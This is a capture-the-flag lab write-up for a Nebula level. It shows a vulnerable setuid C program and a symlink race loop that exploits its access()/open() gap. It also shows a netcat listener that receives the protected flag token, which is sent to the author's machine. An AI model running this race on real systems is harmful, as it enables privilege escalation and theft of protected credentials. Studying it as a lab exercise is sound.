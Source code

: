 ###Level 10

####Introduction
This code takes advantage of a time-of-use to time-of-check bug. What we need to do is swap out the file in between the time of
check and the time of use. This is this code we are given
```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```
To understand more of the TOCTOU look at the man for the access function
> access() checks whether the calling process can access the file path‐
name.
> The check is done using the calling process’s real UID and GID, rather
than the effective IDs as is done when actually attempting an operation
(e.g., open(2)) on the file.

####Exploit

So if we can get the `access()` check to pass using a file we (`level10`) actually has access to and then switch the file for
one that we actually want to read before the `open` call is made, we can exploit this code.   

We can do this using symlinks. However, first we need to find the IP address of the machine we want to send the contents of the file to  

For my purposes I wanted to send it to my computer that this VM is running on. I found that ip by running `netstat -rn` on the VM  and finding the
IP of the gateway. This IP is the IP of my computer.

I can test this by opening a TCP port on my computer using `nc -lk 18211` and then running the script on the VM with a random file
that I have access to.
`./flag10 /tmp/token` will try to send the contents of the file `/tmp/token` to my computer. Sure enough it worked!  

Now to start the symlink race condition  

I made a bash script that will repeatedly remake symlinks between the file I want, a random file and a file I have access to.
```
while true; 
  do 
  ln -sf /home/flag10/token exploit_link; 
  ln -sf /tmp/fake_token exploit_link; 
done
```
I then ran this script in the background using `&`  
Essentially I am going to pass in `exploit_link` to the vulnerable code and hope that at `access()` is called while the 
symlink to `/tmp/fake_token` is active since I have access to that file.  

I am then hoping that the symlink to the real token is replaced before `open()` is called on `exploit_link`  

If this happens I should see the contents of the token file print on the TCP connection on my computer.

